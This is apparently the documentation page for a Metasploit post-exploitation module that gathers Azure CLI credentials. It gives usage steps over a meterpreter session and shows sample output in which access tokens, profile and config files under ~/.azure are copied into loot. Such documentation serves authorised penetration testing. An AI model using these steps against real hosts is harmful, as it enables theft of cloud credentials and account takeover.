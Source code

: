 ## Vulnerable Application

  Any windows, linux, or osx system with a `meterpreter` session and [Azure CLI 2.0](https://docs.microsoft.com/en-us/cli/azure/?view=azure-cli-latest).

  Successfully tested on:

  * Azure CLI 2.0.33 on Windows Server 2012 R2
  * azure-cli 2.0.33-1.el7 on openSUSE Tumbleweed 20180517

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install Azure CLI
  2. Start msfconsole
  3. Get a `meterpreter` session on some host.
  4. Do: ```use post/multi/gather/azure_cli_creds```
  5. Do: ```set SESSION [SESSION_ID]```
  6. Do: ```run```
  7. If the system has readable configuration files for Azure CLI, they will stored in loot and a summary will be printed to the screen.

## Options

  None.

## Scenarios

   ```
msf5 post(multi/gather/azure_cli_creds) > run

[+] /home/james/.azure/accessTokens.json stored to /home/james/.msf4/loot/20180528233056_default_192.168.1.49_azurecli.jwt_tok_029844.txt
[+] /home/james/.azure/azureProfile.json stored to /home/james/.msf4/loot/20180528233056_default_192.168.1.49_azurecli.azure_p_897386.txt
[+] /home/james/.azure/config stored to /home/james/.msf4/loot/20180528233056_default_192.168.1.49_azurecli.config_976372.txt
Subscriptions
=============

Source                                Account Name              Username                  Cloud Name
------                                ------------              --------                  ----------
/home/james/.azure/azureProfile.json  Some Azure Account Name   example.user@example.com  AzureCloud
/home/james/.azure/azureProfile.json  Some Azure Account Name2  example.user@example.com  AzureCloud


Tokens
======

Source                                Username                  Count
------                                --------                  -----
/home/james/.azure/accessTokens.json  example.user@example.com  2

[*] Post module execution completed

   ```
